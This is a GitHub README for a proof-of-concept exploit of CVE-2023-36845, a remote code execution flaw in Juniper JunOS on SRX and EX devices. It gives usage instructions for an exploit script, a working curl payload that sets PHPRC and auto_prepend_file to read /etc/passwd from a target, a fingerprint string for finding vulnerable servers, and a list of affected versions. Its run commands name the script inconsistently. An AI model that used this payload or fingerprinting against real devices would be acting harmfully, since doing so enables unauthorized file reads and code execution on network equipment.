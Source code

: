#CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com
     
# Vulnerability Details

Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:

All versions prior to 20.4R3-S9;

21.1 version 21.1R1 and later versions;
21.2 versions prior to 21.2R3-S7;
21.3 versions prior to 21.3R3-S5;
21.4 versions prior to 21.4R3-S5;
22.1 versions prior to 22.1R3-S4;
22.2 versions prior to 22.2R3-S2;
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;
22.4 versions prior to 22.4R2-S1, 22.4R3;
23.2 versions prior to 23.2R1-S1, 23.2R2.

# Install Requirements:

$ pip install -r requirements.txt


# Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h

$ python3 exploit_CVE-2023-36845.py -u http://example.com
